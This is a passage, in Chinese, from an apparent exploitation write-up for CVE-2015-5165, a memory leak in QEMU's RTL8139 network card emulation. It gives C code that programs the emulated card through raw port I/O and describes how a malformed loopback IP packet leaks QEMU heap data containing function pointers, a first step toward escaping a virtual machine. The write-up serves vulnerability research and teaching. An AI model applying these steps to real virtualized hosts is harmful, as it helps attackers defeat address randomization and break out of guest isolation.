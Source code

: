 ```c
struct rtl8139_desc {
    uint32_t dw0;
    uint32_t dw1;
    uint32_t buf_lo;
    uint32_t buf_hi;
};
```

网卡通过`in*() out*()` 原语（在 `sys/io.h` ）配置。我们需要有 `CAP_SYS_RAWIO` 特权去做这些。下面的代码片段配置网卡并设置一个单一的 Tx 描述符。

```c
#define RTL8139_PORT        0xc000
#define RTL8139_BUFFER_SIZE 1500

struct rtl8139_desc desc;
void *rtl8139_tx_buffer;
uint32_t phy_mem;

rtl8139_tx_buffer = aligned_alloc(PAGE_SIZE, RTL8139_BUFFER_SIZE);
phy_mem = (uint32)gva_to_gpa(rtl8139_tx_buffer);

memset(&desc, 0, sizeof(struct rtl8139_desc));

desc->dw0 |= CP_TX_OWN | CP_TX_EOR | CP_TX_LS | CP_TX_LGSEN |
             CP_TX_IPCS | CP_TX_TCPCS;
desc->dw0 += RTL8139_BUFFER_SIZE;

desc.buf_lo = phy_mem;

iopl(3);

outl(TxLoopBack, RTL8139_PORT + TxConfig);
outl(AcceptMyPhys, RTL8139_PORT + RxConfig);

outw(CPlusRxEnb|CPlusTxEnb, RTL8139_PORT + CpCmd);
outb(CmdRxEnb|CmdTxEnb, RTL8139_PORT + ChipCmd);

outl(phy_mem, RTL8139_PORT + TxAddr0);
outl(0x0, RTL8139_PORT + TxAddr0 + 0x4);
```



### 3.3 - Exploit

完整的 exp（cve-2015-5165.c）在后面的 source code tarball 中。exp 在网卡上配置所需的寄存器并设置 Tx 和 Rx 缓冲区描述符。然后它伪造一个畸形的 IP 包发送到网卡的 MAC 地址。这允许我们访问配置的 Rx 缓冲区读取泄露的数据。当分析泄露的数据时，我们观察到存在多个函数指针。仔细查看发现这些函数指针都是同一 QEMU 内部结构体中的成员：

```c
typedef struct ObjectProperty
{
    gchar *name;
    gchar *type;
    gchar *description;
    ObjectPropertyAccessor *get;
    ObjectPropertyAccessor *set;
    ObjectPropertyResolve *resolve;
    ObjectPropertyRelease *release;
    void *opaque;

    QTAILQ_ENTRY(ObjectProperty) node;
} ObjectProperty;
```
